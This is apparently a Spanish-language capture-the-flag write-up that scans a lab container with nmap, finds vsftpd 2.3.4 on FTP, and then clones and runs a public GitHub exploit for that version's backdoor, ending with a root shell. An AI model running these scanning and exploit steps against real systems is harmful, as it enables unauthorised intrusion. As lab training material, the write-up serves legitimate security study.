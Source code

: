# Explotación de la máquina firsthacking

## Información general
- **Nombre de la máquina**: Firsthacking
- **Dirección IP**: 172.17.0.2
- **Puntos de entrada**: TCP (Puerto 21)

## Reconocimiento
Realizamos un escaneo de puertos, servicios y versiones con el siguiente comando.

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` 
`-p-` ⮞ aplicar reconocimiento a todos los puertos 
`--open` ⮞ solo a los que esten abiertos 
`--min-rate 5000` ⮞ para enviar paquetes más rápido 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)
`-Pn` ⮞ ignora si esta activa o no la IP
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
```
```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-06 12:50 -05
Initiating ARP Ping Scan at 12:50
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 12:50, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:50
Scanning 172.17.0.2 [65535 ports]
Discovered open port 21/tcp on 172.17.0.2
Discovered open port 6200/tcp on 172.17.0.2
Completed SYN Stealth Scan at 12:50, 0.74s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000040s latency).
Scanned at 2024-12-06 12:50:39 -05 for 1s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON
21/tcp   open  ftp     syn-ack ttl 64
6200/tcp open  lm-x    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **21** 

```bash
Al ver que solo tenemos un puerto abierto vamos ha hacer un escaneo de nmap pero para que nos liste más información. Para llevar a cabo eso debemos hacer ```nmap -p21 -sCV 172.17.0.2 -oN targeted``` 
`-p21` ⮞ aplicar el escaneo solo al puerto 21 >
`-sC` ⮞ ejecuta los scripts de reconocimiento básico, los más comunes 
`-sV` ⮞ para conocer la versión del servicio que corre por el puerto (se puede juntar con el anterior y quedaría así `-sCV`)
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida 
`-oN` ⮞ lo exporta en formato nmap al archivo targeted 
```
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-06 12:52 -05
Nmap scan report for 172.17.0.2
Host is up (0.000057s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.60 seconds
```

FTP (Puerto 21)


Una vez ya conozcamos la versión del ftp podemos buscar por ella en Internet en búsquedad de algún exploit de esta forma ftp vsftpd 2.3.4 exploit github.
Nos encontramos con este repositorio de github. Si seguimos las instrucciones del repositorio instalando los requirimientos con sudo python3 -m pip install pwntools.
Nos descargamos el repositorio con git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git. Una vez esté descargado probamos ha hacer lo que nos dice que sería python3 exploit.py 172.17.0.2. Y listo ya seríamos root. 

```bash
python3 exploit.py 172.17.0.2  
[+] Got Shell!!!
[+] Opening connection to 172.17.0.2 on port 21: Done
[*] Closed connection to 172.17.0.2 port 21
[+] Opening connection to 172.17.0.2 on port 6200: Done
[*] Switching to interactive mode
$ whoami
root
$  
```
